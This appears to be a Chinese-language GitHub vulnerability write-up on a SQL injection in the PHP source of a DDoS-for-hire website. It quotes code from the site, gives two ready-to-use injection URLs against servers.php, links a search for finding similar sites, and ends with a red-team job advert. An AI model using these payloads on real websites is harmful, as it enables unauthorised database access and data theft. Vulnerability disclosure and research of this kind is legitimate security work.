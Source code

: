 # Security
一个小洞洞，不喜欢写很多废话，下面的描述也是。

# 小介绍
无意中在谷ge上搜索到了提供在线DDOS攻击的站点，感觉好好奇哦，这玩意是不是可以改变世界？

URL：http://www.ddos.rip/

这里是测评介绍，感觉挺丰富且价格也不是很贵，然后对于我们这些搬砖的攻城狮而言，花钱是不可能的，一定是不可能的！

# 过程
$SQLCheckLost = $odb -> prepare("SELECT COUNT(*) FROM `users` WHERE `username` = :username AND `email` = :mail AND `scode` = :scode ");
$SQLCheckLost -> execute(array(':username' => $username, ':mail' => $mail, ':scode' => $scode));
$countLost = $SQLCheckLost -> fetchColumn(0);
if ($countLost > 0)
{
function generarCodigo($longitud) {
 $key = '';
 $pattern = '1234567890abcdefghijklmnopqrstuvwxyz';
 $max = strlen($pattern)-1;
 for($i=0;$i < $longitud;$i++) $key .= $pattern{mt_rand(0,$max)};
 return $key;
}

几乎全部的文件都是通过预处理进行SQL传递，这玩意跟注入一直就是死对头，但是在SERVERS.PHP这玩意中没有顾忌到，虽然也是预处理，但是并没有通过赋值操作。
# Payload

```server.php?sv=A1%%23' 将SQL语句闭合，然后你们懂的。```
```/ajax/servers.php?sv=A1%%27%20UNION%20ALL%20SELECT%20user()%23-- Next You K```

# 影响

这样说吧，百分之七十的DDOS在线攻击网站都存在......g
谷x搜索:
https://www.google.com/search?ei=IO0NXaHYIIzdvgT2vq3ABg&q=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&oq=ddos%E7%BD%91%E9%A1%B5%E7%AB%AF&gs_l=psy-ab.12...853628.857136..858562...0.0..0.1153.1153.7-1......0....1..gws-wiz.XQGEBD9xDU0


# 结构

```
├─@
├─admin
├─ajax
│  ├─Crypt
│  ├─File
│  ├─js
│  ├─Math
│  └─Net
├─apikey
├─assets
│  ├─images
│  └─user
│      ├─css
│      ├─fonts
│      └─js
├─css
├─fonts
├─images
├─js
├─picture
└─user
```

这种垃圾的架构我也是醉了，虽然我不会ThinkPhp审计......
@ 文件夹主要是Config文件以及全局函数文件
admin 就不说了，此文件夹下也存在着相同的漏洞，但是对于黑盒而言，此漏洞是不存在的，因为TMD的后台根本就不会让你找到
ajax 主要以usercp为主，以及前台登录的login，以及servers
apikey 通过前端获取命令然后通过api向发包机发送指令
下面几个文件夹可以无视

# 么么哒

奇安信(原360企业安全)高级攻防部招聘

红队方向、渗透测试、还有一些你喜欢做的事情.....

usernameandpwd@protonmail.ch
